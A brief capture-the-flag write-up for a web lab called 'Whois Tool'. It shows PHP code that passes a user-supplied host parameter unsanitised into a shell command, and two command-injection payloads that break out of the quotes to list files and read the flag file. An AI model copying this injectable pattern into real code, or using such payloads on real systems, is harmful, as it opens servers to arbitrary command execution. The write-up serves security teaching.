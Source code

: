 ```yaml
---
title: Simple Web - 0x02(Lab - Whois Tool)
tags: [CTF, Web, eductf]

---
```


# Simple Web - 0x02(Lab - Whois Tool)
###### tags: `CTF` `Web` `eductf`
Challenge: https://whoistool.ctf.zoolab.org/

## Background
Almost the same as [0x10(Lab - DNS Lookup Tool | WAF)](/7x0Gr0C_QEahfS_QaTLYTg)

## Source Code
```php=
<?php
if(isset($_GET["host"])){
  $host = $_GET["host"];
  if(strlen($host) > 15)
    echo "Host name tooooooo logn!!";
  else
    echo `whois "{$host}" 2>&1;`;
}
?>
```

## Exploit
Payload: `";ls -al;"`
![](https://i.imgur.com/MsG3wOH.png)
Payload: `";cat flag.t*;"`
Then we got flag!!!